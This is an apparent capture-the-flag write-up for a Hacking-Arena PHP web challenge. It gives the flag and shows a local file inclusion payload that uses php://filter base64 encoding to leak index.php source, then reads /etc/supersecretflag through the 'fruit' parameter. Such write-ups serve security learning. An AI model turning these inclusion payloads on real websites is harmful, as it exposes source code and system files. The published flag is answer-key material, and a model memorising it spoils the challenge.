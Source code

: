 # Flag

> **Hacking-Arena{Yammiiee_bananaaa}**

# Prompt

> **I love bananas!!! Can you find out where the flag hides? [http://3cpo.hackingarena.com:805/](http://3cpo.hackingarena.com:805/)**

# Solution

**php filter** wrapping in **PHP** used to read and manipulate files whilst encoding them. 

```
index.php?fruit=php://filter/convert.base64-encode/resource=index.php
```

The url change returns the webpage with a Base64 encoded message which can be decoded through **[CyberChef](https://gchq.github.io/CyberChef/#recipe=From_Base64('A-Za-z0-9-_',true,false)&input=UEQ5d2FIQUtJQ0FnYVdZZ0tHbHpjMlYwS0NBa1gwZEZWRnNuWm5KMWFYUW5YU0FwSUNsN0NpQWdJQ0FnSUdsdVkyeDFaR1VvSUNSZlIwVlVXeWRtY25WcGRDZGRLVHNLSUNBZ0x5OWtieUIzWlNCb1lYWmxJQzlsZEdNdmMzVndaWEp6WldOeVpYUm1iR0ZuQ2lBZ0lIMEtQejRLQ2p4aElHaHlaV1k5SW1sdVpHVjRMbkJvY0Q5bWNuVnBkRDFpWVc1aGJtRWlQa2tnZDJGdWRDQmlZVzVoYm1FOEwyRQ)** .

![[Pasted image 20241026225656.png]]

The commented out message lead me to the flag at:

```
http://3cpo.hackingarena.com:805/index.php?fruit=/etc/supersecretflag
```
# Additional Info

Additional solution / info